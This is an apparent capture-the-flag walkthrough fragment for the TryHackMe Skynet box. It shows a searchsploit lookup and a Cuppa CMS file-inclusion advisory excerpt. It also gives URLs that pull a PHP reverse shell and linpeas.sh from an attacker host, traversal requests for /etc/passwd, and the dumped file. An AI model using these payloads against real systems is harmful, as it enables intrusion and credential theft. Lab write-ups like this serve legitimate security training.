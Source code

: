 ```
┌──(root💀kali)-[~/ctf/thm/skynet]
└─# searchsploit Cuppa
------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                     |  Path
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                    | php/webapps/25971.txt
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```
####################################
VULNERABILITY: PHP CODE INJECTION
####################################
```

```
#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

```
# Exploit Title   : Cuppa CMS File Inclusion
# Date            : 4 June 2013
# Exploit Author  : CWH Underground
```


http://10.10.10.103/45kra24zxs28v3yd/administrator/

http://10.10.10.103/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.9.183:8000/php-reverse-shell.php
10.13.9.183:8000/linpeas.sh
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
http://10.10.10.103/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

```
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
```